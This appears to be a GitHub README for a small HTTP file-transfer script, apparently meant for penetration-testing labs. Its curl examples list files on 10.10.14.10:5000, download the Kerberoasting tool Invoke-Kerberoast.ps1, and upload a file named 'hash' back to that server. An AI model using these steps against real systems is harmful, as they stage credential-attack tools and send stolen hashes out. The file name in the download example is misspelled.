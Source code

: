 # SimpleHTTPTransfer

Just a little script to simplify the file transfer from or to a remote server.
Add it to your PATH and just execute it in the folder where you want to download/upload files.

## List
```curl http://10.10.14.10:5000/```

## Download

```curl http://10.10.14.10:5000/Invoke-Kerbeoast.ps1 > Invoke-Kerberoast.ps1```

## Upload

```curl http://10.10.14.10:5000/ -F 'file=hash'```
